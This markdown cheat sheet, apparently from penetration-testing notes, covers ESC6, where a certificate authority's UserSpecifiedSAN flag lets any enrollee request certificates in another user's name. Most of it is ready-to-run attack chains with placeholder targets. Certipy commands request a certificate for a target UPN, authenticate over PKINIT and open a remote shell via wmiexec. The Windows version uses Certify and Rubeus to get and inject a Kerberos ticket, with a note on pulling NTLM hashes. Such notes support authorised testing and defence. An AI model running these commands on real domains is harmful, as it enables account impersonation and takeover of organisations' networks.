 # ESC6—CA-level UserSpecifiedSAN (EDITF_ATTRIBUTESUBJECTALTNAME2)

## Theory

> [!summary] Overview
>
> If the CA has **EDITF_ATTRIBUTESUBJECTALTNAME2** enabled (a.k.a. **UserSpecifiedSAN: Enabled**), enrollees can inject arbitrary SAN/UPN values in CSRs for **any** template, including ones (e.g., `User`) that normally don’t allow SANs. This effectively turns those templates into ESC1-style impersonation paths. 

> [!important]
>
> Microsoft patched this behavior in the **May 2022** updates (CVE-2022-26923), but misconfigured/unpatched environments may still be vulnerable.

## Requirements

- CA flag **UserSpecifiedSAN / EDITF_ATTRIBUTESUBJECTALTNAME2 = Enabled**.
- A template permitting **Client Authentication** EKU (e.g., `User`) and enroll rights for low-privileged users.
- Environment not enforcing the May 2022 hardening (or otherwise still honoring the CA flag).

### Placeholders

`<DOMAIN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_NAME>` `<CA_FQDN>` `<TARGET_UPN>` `<TARGET_USER>` `<PFX_FILE>` `<TARGET_HOST_FQDN>`

---

## Linux

### Enumerate CA

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# In "Certificate Authorities", confirm: User Specified SAN : Enabled
```

### Exploit (request Cert with Alternate UPN via CSR)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template 'User' -upn '<TARGET_UPN>' \
  -out '<PFX_FILE>'
# Expect: "Got certificate with UPN '<TARGET_UPN>'" and often "Certificate has no object SID"
```

### Authenticate (PKINIT) and Use TGT

```bash
certipy auth -pfx '<PFX_FILE>.pfx' -domain '<DOMAIN>' -dc-ip <DC_IP>
KRB5CCNAME='<TARGET_USER>.ccache' wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate CA

```powershell
.\Certify.exe cas
# In "Enterprise/Enrollment CAs": look for
#   [!] UserSpecifiedSAN : EDITF_ATTRIBUTESUBJECTALTNAME2 set
```

### Exploit (request Cert with Altname on Normally non-SAN template)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:User /altname:<TARGET_UPN> > cert.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

### Authenticate as Target

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:cert.pfx /nowrap
# Use returned TGT (kirbi) or /getcredentials to retrieve NTLM if permitted
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```
